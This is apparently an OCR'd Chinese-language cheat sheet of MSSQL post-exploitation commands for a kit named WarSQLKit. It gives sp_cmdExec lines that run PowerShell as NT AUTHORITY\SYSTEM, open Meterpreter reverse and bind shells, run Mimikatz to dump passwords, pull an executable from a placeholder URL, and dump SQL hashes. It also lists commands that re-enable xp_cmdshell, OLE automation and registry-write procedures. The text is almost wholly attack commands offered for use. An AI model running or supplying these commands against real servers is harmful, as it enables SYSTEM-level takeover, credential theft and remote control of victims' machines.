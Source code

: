 	以NT AUTHORITY\SYSTEM权限运行PowerShell命令
	EXEC sp_cmdExec 'powershell Get-ChildItem /RunSystemPS';
	生成一个以NT AUTHORITY\SYSTEM权限运行的X86 Meterpreter反向连接shell
	EXEC sp_cmdExec 'sp_meterpreter_reverse_tcp LHOST LPORT GetSystem';
	生成一个以NT AUTHORITY\SYSTEM权限运行的X64 Meterpreter反向连接shell
	EXEC sp_cmdExec 'sp_x64_meterpreter_reverse_tcp LHOST LPORT GetSystem';
	生成一个以NT AUTHORITY\SYSTEM权限运行的X64 Meterpreter RC4反向连接shell
	EXEC sp_cmdExec 'sp_meterpreter_reverse_rc4 LHOST LPORT GetSystem'
	RC4PASSWORD=warsql
	生成一个以NT AUTHORITY\SYSTEM权限运行的X86 meterpreter_bind_tcp shell
	EXEC sp_cmdExec 'sp_meterpreter_bind_tcp LPORT GetSystem';
	运行Mimikatz功能抓取密码
	EXEC sp_cmdExec 'sp_Mimikatz';
	获取Mimikatz日志
	select * from WarSQLKitTemp
	文件下载
	EXEC sp_cmdExec 'sp_downloadFile http://test.com/file.exe C:\ProgramData\file.exe 300';
	获取MSSQL Hash
	EXEC sp_cmdExec 'sp_getSqlHash';
	获取Windows版本
	EXEC sp_cmdExec 'sp_getProduct';
	获取可用的数据库
	EXEC sp_cmdExec 'sp_getDatabases';
 #### 利用sp_addextendedproc恢复组件
  	EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
	EXEC sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
	EXEC sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
	EXEC sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
 #### 